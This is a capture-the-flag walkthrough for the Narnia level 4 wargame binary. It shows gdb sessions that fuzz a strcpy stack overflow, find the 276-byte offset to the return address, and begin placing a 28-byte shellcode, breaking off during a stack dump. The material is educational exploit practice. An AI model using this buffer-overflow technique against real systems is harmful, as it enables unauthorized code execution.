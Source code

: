 > Ok, similiar to previous challenges we can see the character array ```char buffer[256];``` initialized and then used in ```strcpy(buffer,argv[1]);``` without checking the size of ```argv[1]```.  Let's go ahead start up gdb and poke around.
>
>```
(gdb) run $(python -c 'print "A"*100')
Starting program: /root/narnia4 $(python -c 'print "A"*100')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
[Inferior 1 (process 6557) exited normally]
(gdb) run $(python -c 'print "A"*200')
Starting program: /root/narnia4 $(python -c 'print "A"*200')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
[Inferior 1 (process 6560) exited normally]
(gdb) run $(python -c 'print "A"*300')
Starting program: /root/narnia4 $(python -c 'print "A"*300')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) c
Continuing.
>
Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
(gdb) run $(python -c 'print "A"*275')
Starting program: /root/narnia4 $(python -c 'print "A"*275')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Program received signal SIGSEGV, Segmentation fault.
0x00414141 in ?? ()
(gdb) c
Continuing.
>
Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
(gdb) run $(python -c 'print "A"*276')
Starting program: /root/narnia4 $(python -c 'print "A"*276')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
>```
>
> Ok, we saw our ```A``` when we submitted 300 of them.  After backing off to 275, we see 3 positions overwritten with ```A```.  Adding one to that looks like we have our magic number as it appears we have overwritten a return address successfully with ```0x41414141``` with 276 ```A```.
>
> Let's see if we can pinpoint a location for our 28 byte shellcode and an address to return back to.
>
>```asm
(gdb) run $(python -c 'print "A"*244+"R"*28+"A"*4')
Starting program: /root/narnia4 $(python -c 'print "A"*244+"R"*28+"A"*4')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) x/300x $esp
0xffffd400:	0x00000000	0xffffd4a4	0xffffd4b0	0xf7fdb860
0xffffd410:	0xf7ff4821	0xffffffff	0xf7ffcff4	0x0804828b
0xffffd420:	0x00000001	0xffffd460	0xf7fedc16	0xf7ffdac0
0xffffd430:	0xf7fdbb58	0xf7fb6ff4	0x00000000	0x00000000
0xffffd440:	0xffffd478	0x6a7d42c1	0x586954d1	0x00000000
0xffffd450:	0x00000000	0x00000000	0x00000002	0x080483b0